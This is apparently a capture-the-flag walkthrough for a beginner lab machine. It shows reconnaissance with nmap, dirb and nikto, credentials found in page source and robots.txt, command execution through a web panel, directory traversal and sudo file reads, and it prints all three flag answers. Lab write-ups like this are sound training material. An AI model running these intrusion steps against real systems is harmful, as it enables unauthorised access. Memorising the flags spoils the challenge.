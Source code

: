 ### Difficulty: EASY

### Keywords and tools: nmap, nikto, dirb, directory traversal


#ping the target (target IP will be given after you've joined the room)

'ping 10.10.102.120' 
PING 10.10.102.120 (10.10.102.120) 56(84) bytes of data.
64 bytes from 10.10.102.120: icmp_seq=1 ttl=63 time=49.4 ms
64 bytes from 10.10.102.120: icmp_seq=2 ttl=63 time=50.7 ms

#nmap scan

sudo nmap -sV -n -v -Pn -p- -T4 -A 10.10.102.120

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9a:68:bd:7f:44:89:05:be:36:ef:62:91:91:3c:8b:f3 (RSA)
|   256 f3:57:4b:4d:59:dd:42:6e:01:d9:b6:7e:8b:d5:72:8b (ECDSA)
|_  256 3a:9e:61:c3:73:1a:f0:4c:de:a3:39:79:d5:b5:f3:68 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool


#connect to web app with Firefox
#inspect the page source 

<!--

    Note to self, remember username!

    Username: R1ckRul3s

-->


#Check /robots.txt
Wubbalubbadubdub

#Maybe a password?
#Let's try ssh.


ssh R1ckRul3s@10.10.102.120
R1ckRul3s@10.10.102.120: Permission denied (publickey).

#No success. Will need ssh key.
  
  

#scan the target for possibly hidden content with dirb
dirb http://10.10.102.120/

#nothing special found, lets try nikto
nikto -h 10.10.102.120

#nikto found an /login.php page, lets see it and try to login

username: R1ckRul3s
password: Wubbalubbadubdub

#we get a command panel with a command execution box, lets try typing 'whoami'
www-data
ls

Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt

cat Sup3rS3cretPickl3Ingred.txt
Command disabled

#open the page with Firefox: http://10.10.102.120/Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair

#and we have our first flag


#open the http://10.10.102.120/clue.txt
Look around the file system for the other ingredient.

#lets try directory traversal
cd ../../../../; ls

#works, lets explore home

cd /home; ls
cd /home/rick; ls

#we see 'second ingredients', and since cat-command is disabled, lets try 'less'

less /home/rick/"second ingredients"
jerry tear

#now we got our second flag


#lets see if we have sudo

sudo ls /root;
sudo less /root/3rd.txt

3rd ingredients: fleeb juice

#we got all 3 flags.
